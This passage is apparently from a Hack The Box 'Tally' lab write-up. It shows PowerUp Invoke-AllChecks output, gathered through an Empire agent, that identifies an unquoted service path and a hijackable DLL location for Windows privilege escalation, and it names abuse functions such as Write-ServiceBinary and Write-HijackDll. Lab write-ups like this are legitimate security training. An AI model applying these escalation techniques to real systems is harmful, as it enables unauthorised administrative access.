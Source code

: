 So we can confirm two things here, we are the User `Sarah` which we already knew from the previous `whoami` command, and that the box is running Windows Server 2016 Standard as its operating system. Awesome.

## Priv Esc

Took a few minutes to come back, but when we first got onto the box we ran the `allchecks` module from `PowerUp` (using our Empire agent), and we got the following results:

```
[*] Running Invoke-AllChecks                                                                                                                                             [56/465]


[*] Checking if user is in a local group with administrative privileges...

                                                      
[*] Checking for unquoted service paths...

                                                     
ServiceName    : c2wts
Path           : C:\Program Files\Windows Identity Foundation\v3.5\c2wtshost.exe
ModifiablePath : @{ModifiablePath=C:\; IdentityReference=BUILTIN\Users; Permissions=AppendData/AddSubdirectory}
StartName      : LocalSystem
AbuseFunction  : Write-ServiceBinary -Name 'c2wts' -Path <HijackPath>
CanRestart     : False 
                       
ServiceName    : c2wts 
Path           : C:\Program Files\Windows Identity Foundation\v3.5\c2wtshost.exe
ModifiablePath : @{ModifiablePath=C:\; IdentityReference=BUILTIN\Users; Permissions=WriteData/AddFile}
StartName      : LocalSystem
AbuseFunction  : Write-ServiceBinary -Name 'c2wts' -Path <HijackPath>
CanRestart     : False





[*] Checking service executable and argument permissions...


[*] Checking service permissions...


[*] Checking %PATH% for potentially hijackable DLL locations...


ModifiablePath    : C:\Users\Sarah\AppData\Local\Microsoft\WindowsApps
IdentityReference : TALLY\Sarah
Permissions       : {WriteOwner, Delete, WriteAttributes, Synchronize...}
%PATH%            : C:\Users\Sarah\AppData\Local\Microsoft\WindowsApps
AbuseFunction     : Write-HijackDll -DllPath 'C:\Users\Sarah\AppData\Local\Microsoft\WindowsApps\wlbsctrl.dll'




[*] Checking for AlwaysInstallElevated registry key...


[*] Checking for Autologon credentials in registry...

```